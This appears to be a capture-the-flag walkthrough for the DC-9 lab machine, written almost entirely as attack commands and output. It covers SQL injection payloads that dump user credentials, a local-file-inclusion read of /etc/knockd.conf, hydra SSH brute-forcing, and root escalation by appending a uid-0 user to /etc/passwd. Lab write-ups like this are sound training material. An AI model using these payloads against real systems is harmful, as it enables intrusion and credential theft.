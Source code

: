 ### DC-9

#### SQLI

databases => search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,schema_name,0x7c))+from+information_schema.schemata+--+-

|information_schema|,|Staff|,|users|

usually generic data in information_schema, lets look in users

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,table_name,0x7c))+from+information_schema.tables+where+table_schema='users'+--+-
|UserDetails|

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,column_name,0x7c))+from+information_schema.columns+where+table_name='UserDetails'+--+-
|id|,|firstname|,|lastname|,|username|,|password|,|reg_date|


Usernames and Passwords

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(username))+from+users.UserDetails+--+-
```
marym
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2
```

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,password,0x7c))+from+users.UserDetails+--+-

```
3kfs86sfd
468sfdfsd2
4sfd87sfd1
RocksOff
TC&TheBoyz
B8m#48sd
Pebbles
BamBam01
UrAG0D!
Passw0rd
yN72#dsd
ILoveRachel
3248dsds7s
smellycats
YR3BVxxxw87
Ilovepeepee
Hawaii-Five-0
transorbital
```

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,table_name,0x7c))+from+information_schema.tables+where+table_schema='Staff'+--+-
|StaffDetails|,|Users|

search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,column_name,0x7c))+from+information_schema.columns+where+table_name='Users'+--+-
|UserID|,|Username|,|Password|

search=search=adm'+union+select+1,1,1,1,1,(gRoUp_cOncaT(0x7c,Password,0x7c))+from+Staff.Users+--+-
856f5de590ef37314e7c3bdf6f8a66dc => transorbital

#### LFI

/welcome.php?file=../../../../../etc/knockd.conf

```
[openSSH]
	sequence    = 7469,8475,9842
	seq_timeout = 25
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

[closeSSH]
	sequence    = 9842,8475,7469
	seq_timeout = 25
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn
```

#### SSH

`hydra -L users -P pass ssh://172.22.222.4`

```
[22][ssh] host: 172.22.222.4   login: chandlerb   password: UrAG0D!
[22][ssh] host: 172.22.222.4   login: joeyt   password: Passw0rd
[22][ssh] host: 172.22.222.4   login: janitor   password: Ilovepeepee
```

in janitor, we have

/home/janitor/.secrets-for-putin/passwords-found-on-post-it-notes.txt
```
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

`hydra -L users -P pass2 ssh://172.22.222.4`

^^ gives us the login for fredf, where we have a sudo -l, which basically reads file from one place and appends it to another file / place, so what we do in this situation is

```
fredf@dc-9:/tmp$ openssl passwd -6 -salt xyz  1234
$6$xyz$yi4TR7hO4A9BO9pNy9PTn2weMAlWj5r/joQU06UIWdIqGtI71dd10wSEo8MMskSav5eIc8c7zyqfcWOnqQ.VE/

echo "root1:\$6\$xyz\$yi4TR7hO4A9BO9pNy9PTn2weMAlWj5r/joQU06UIWdIqGtI71dd10wSEo8MMskSav5eIc8c7zyqfcWOnqQ.VE/:0:0:root:/root:/bin/bash" > newetcpasswd

fredf@dc-9:/tmp$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test

sudo /opt/devstuff/dist/test/test newetcpasswd /etc/passwd
```

this ^^ appends the new user root1 with uid(0), gid(0) to /etc/passwd with a password of 1234, which we can su into